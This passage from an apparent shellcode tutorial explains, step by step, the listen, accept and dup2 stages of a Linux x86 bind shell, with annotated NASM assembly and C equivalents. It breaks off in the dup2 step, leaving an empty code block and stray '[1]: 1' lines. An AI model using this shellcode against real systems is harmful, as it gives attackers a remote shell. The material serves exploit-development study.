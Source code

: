 ```nasm
xor eax, eax     ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66     ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
xor ebx, ebx     ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x4      ; EBX is set to listen().
xor ecx, ecx     ; This sets the ECX Register to NULL (all zeros).
push ecx         ; ECX[1]. Push the value 0x0 to the stack.
push esi         ; ECX[0]. This is the value we saved from creating the Socket earlier. 
mov ecx, esp     ; Point ECX to the top of the stack. 
int 0x80         ; Executes listen(). Allowing us to handle incoming TCP-IP Connections.
```

### 5. Accept the Incoming Connection, and Create a New Connected Session
#### C Function
```c
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen, int flags);
```
#### Our C Function        
```c
<socketcall>   clientSocket = accept( ipv4Socket, NULL, NULL );
EAX=0x66                       EBX     ECX[0]    ECX[1] ECX[2]
```
+ `EAX    = 102  = 0x66`
  - This is the value to call the SYSCAL `socketcall`.  
+ `EBX    = 5    = 0x5`
  - Value for `accept()` function relative to the SYSCAL `socketcall`.  
  - `#define SYS_ACCEPT      5         // sys_accept(2)`  
+ `ECX[0] = int sockfd = ESI`
  - The Socket we created earlier and stored in the ESI register  
+ `ECX[1] = NULL = 0x00000000`  
+ `ECX[2] = NULL = 0x00000000`  
       
```nasm
xor eax, eax     ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66     ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
xor ebx, ebx     ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x5      ; EBX is set to accept().
xor ecx, ecx     ; This sets the ECX Register to NULL (all zeros).
push ecx         ; ECX[2]. Push the value 0x0 to the stack.
push ecx         ; ECX[1]. Push the value 0x0 to the stack.
push esi         ; ECX[0]. This is the value we saved from creating the Socket earlier. 
mov ecx, esp     ; Point ECX to the top of the stack. 
int 0x80         ; System Call Interrupt 0x80 
xchg ebx, eax    ; The created clientSocket is stored in EAX after receiving a connection.
```

### 6. Transfer STDIN, STDOUT, and STDER to the Connected Session
#### C Function
```c
int dup2(int oldfd, int newfd);  
```
#### Our C Function            
```c
dup2( clientSocket, 0 ); // STDIN
dup2( clientSocket, 1 ); // STDOUT
dup2( clientSocket, 2 ); // STDERR
EAX       EBX      ECX     
```
+ `EAX = 63 = 0x3F`
  - This is the value to call the SYSCAL `dup2`.  
  - Find Dup2 SYSCAL value:  
```console
```

[1]: 1
[1]: 1